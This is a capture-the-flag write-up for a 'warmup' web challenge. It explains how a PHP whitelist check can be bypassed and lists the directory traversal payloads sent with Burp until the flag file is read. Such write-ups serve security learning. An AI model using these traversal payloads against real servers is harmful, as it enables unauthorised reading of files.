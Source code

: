 
# warmup  
  
![Screenshot from 2021-07-24 22-04-46](https://user-images.githubusercontent.com/87865134/126872559-500d8562-582d-44a8-b5fe-05209425fee2.png)

- Hint: in source code  

![Screenshot from 2021-07-24 22-05-44](https://user-images.githubusercontent.com/87865134/126872594-0e5b5035-a9ec-49a0-bf30-9475a3d09946.png)

- View file ***source.php***  

![Screenshot from 2021-07-24 22-07-47](https://user-images.githubusercontent.com/87865134/126872652-d614b39e-f637-40fd-83ad-3d53efbdcbb9.png)  
![Screenshot from 2021-07-24 22-08-07](https://user-images.githubusercontent.com/87865134/126872665-c914d17e-ec34-45c6-b275-46e0f23544e8.png)

- View file ***hint.php***:  

![Screenshot from 2021-07-24 22-11-29](https://user-images.githubusercontent.com/87865134/126872747-869ffda3-9c95-4134-b7eb-2c40023743ac.png)

  - > Flag in file ***ffffllllaaaagggg***
  
- **function checkFile(&$page)**: 
  -  check if file in whitelist or not
  -  $page not change after fucntion return  
    - => can bypass function by use payload: `?file=source.php%3f/../ffffllllaaaagggg` 
 
- **Use Burp to send some requests**:
  - `?file=source.php%3f/../ffffllllaaaagggg` => not found
  - `?file=source.php%3f/../../ffffllllaaaagggg` => not found
  - `?file=source.php%3f/../../../ffffllllaaaagggg` => not found
  - `?file=source.php%3f/../../../../ffffllllaaaagggg` => found
 
![Screenshot from 2021-07-24 22-24-53](https://user-images.githubusercontent.com/87865134/126873191-d4cfb6a0-52ed-4997-a90b-e59554a3aad0.png)


- **Description**: 
  - > category: directory traversal
